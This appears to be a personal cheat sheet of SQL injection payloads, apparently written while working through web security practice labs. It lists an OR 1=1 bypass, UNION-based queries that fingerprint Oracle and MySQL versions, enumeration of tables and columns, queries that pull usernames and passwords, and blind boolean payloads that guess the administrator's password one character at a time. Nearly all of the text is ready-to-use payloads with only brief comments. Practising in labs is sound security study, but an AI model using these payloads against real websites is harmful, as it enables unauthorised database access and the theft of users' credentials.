 SELECT * FROM products WHERE category = 'Gifts' AND released = 1 SELECT * FROM products WHERE category = 'Gifts'+OR+1=1--

---


Pets'+UNION+SELECT+'abc','def'+FROM+dual--

<!-- get oricle versoin -->
pets'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- 

<!-- get mysql version -->
pets'+UNION+SELECT+@@VERSION,'123'#

<!-- get list of available tables -->
pets'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

<!-- get columns names from table -->
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_asniqq'--






pets'+UNION+SELECT+username_ajwyco,+password_vbhmko+FROM+users_asniqq--


pets'+UNION+SELECT+'abc',null+FROM+dual--

pets'+UNION+SELECT+table_name,NULL+FROM+all_tables--



pets'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KHNUJE'--
pets'+UNION+SELECT+USERNAME_VZXOXJ,+PASSWORD_TMAPQB+FROM+USERS_KHNUJE--

Gifts'+UNION+SELECT+USERNAME_VZXOXJ,+PASSWORD_TMAPQB+FROM+USERS_KHNUJE--



qyNctwBowN2e0kaF' AND (SELECT 'a' FROM users WHERE username='administrator')='a

qyNctwBowN2e0kaF' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

qyNctwBowN2e0kaF' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
